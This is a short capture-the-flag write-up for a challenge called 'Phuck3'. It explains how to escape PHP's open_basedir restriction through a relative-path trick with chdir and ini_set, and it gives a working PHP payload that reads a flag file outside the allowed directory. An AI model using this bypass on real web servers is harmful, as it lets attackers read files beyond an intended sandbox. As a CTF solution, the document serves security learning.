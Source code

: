 ## Phuck3

This challenge was about bypassing PHP open_basedir when having a restricted arbitrary PHP code execution. Most of commons functions to execute commands were blocked.

The initial solution that was intended used the following facts :
- open_basedir can be tampered at runtime with ini_set, but is restricted by open_basedir itself (in other words, we should only be able to harden the existing rule)
- open_basedir is stored as a non-resolved absolute or relative path

In this case, a folder __img__ was in the webroot. The following payload allows to bypass completly open_basedir :

```
chdir('img');
ini_set('open_basedir','..'); // <-- authorized, as .. is compliant with the original rule
chdir('..');chdir('..');chdir('..');chdir('..'); // but yeah, stored non-resolved, so that is also ok.
ini_set('open_basedir','/'); // <-- we're in /, the current rule is '..' so / is compliant with the current rule :).
echo file_get_contents('flag');
```

Tada!
